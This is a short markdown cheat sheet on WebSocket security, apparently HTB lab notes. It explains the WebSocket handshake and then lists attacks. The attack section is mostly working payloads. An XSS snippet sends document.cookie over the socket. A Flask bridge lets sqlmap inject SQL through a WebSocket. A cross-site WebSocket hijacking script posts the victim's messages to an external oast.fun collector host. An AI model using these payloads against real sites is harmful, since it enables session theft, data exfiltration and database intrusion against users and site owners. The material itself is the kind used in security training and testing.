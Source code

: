 # Content
- [Sockets](#sockets)
- [Attacks](#attacks)
    - [XSS](#xss)
    - [SQLi](#sqli)
    - [Cross-Site WebSocket Hijacking](#cross-site-websocket-hijacking)

# Sockets
#### The WebSocket handshake is initiated with an HTTP request similar to this:
```http
GET /echo HTTP/1.1
Host: websockets.htb
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: 7QpTshdCiQfiv3tH7myJ1g==
Origin: http://websockets.htb
```
- The Connection header with the value Upgrade and the Upgrade header with the value websocket indicate the client's intent to establish a WebSocket connection
- The Sec-WebSocket-Version header contains the WebSocket protocol version chosen by the client, with the latest version being 13
- The Sec-WebSocket-Key header contains a unique value confirming that the client wants to establish a WebSocket connection; this header does not provide any security protections
- The Origin header contains the origin just like in regular HTTP requests and is used for security purposes.

#### The server responds with a response similar to the following:
```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: QU/gD/2y41z9ygrOaGWgaC+Pm2M=
```
- The HTTP status code of 101 indicates that the WebSocket connection establishment has been completed
- The Connection and Upgrade headers contain the same values as in the client's request, which is Upgrade and websocket, respectively
- The Sec-WebSocket-Accept header contains a value derived from the value sent by the client in the Sec-WebSocket-Key header and confirms that the server is willing to establish a WebSocket connection

# Attacks
## XSS
for example send admin's cookies through socket chat
```html
<img src=x onerror="socket.send(document.cookie);"> 
```

## SQLi
- we need to create a flask middleware to use sqlmap
```bash
pip3 install Flask ,  websocket-client , json
```
- for example if we have a websocket that accept `username` paramter we can create this flask app to convert the get paramter from sqlmap to websocket scheme
```python3
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

WS_URL = 'ws://target.com/dbconnector'

@app.route('/')
def index():
    req = {}
    req['username'] = request.args.get('username', '')

    ws = create_connection(WS_URL)
    ws.send(json.dumps(req))
    r = json.loads(ws.recv())
    ws.close()

    if r.get('error'):
        return r['error']

    return r['messages']

app.run(host='127.0.0.1', port=8000)

```
- then use sqlmap against it 
```shell
sqlmap -u "http://127.0.0.1:8000/?username=htb-stdnt" --level 5 --risk 2        
```


## Cross-Site WebSocket Hijacking
csrf for websocket
```html
<script>
  function send_message(event){
    socket.send('!get_messages');
  };

  const socket = new WebSocket('ws://VulnHost:80/messages');
  socket.onopen = send_message;
  socket.addEventListener('message', ev => {
    fetch('http://ch23a202vtc0000138p0getbibyyyyyyb.oast.fun/', {method: 'POST', mode: 'no-cors', body: ev.data});
  });
</script>

```

**Note:** 
For this exploit to work, the SameSite cookie flag must be set to `None`. Since most browsers apply a default value of Lax if the SameSite cookie attribute is not set, the attack's success would require a deliberately insecure configuration by the web application administrator.
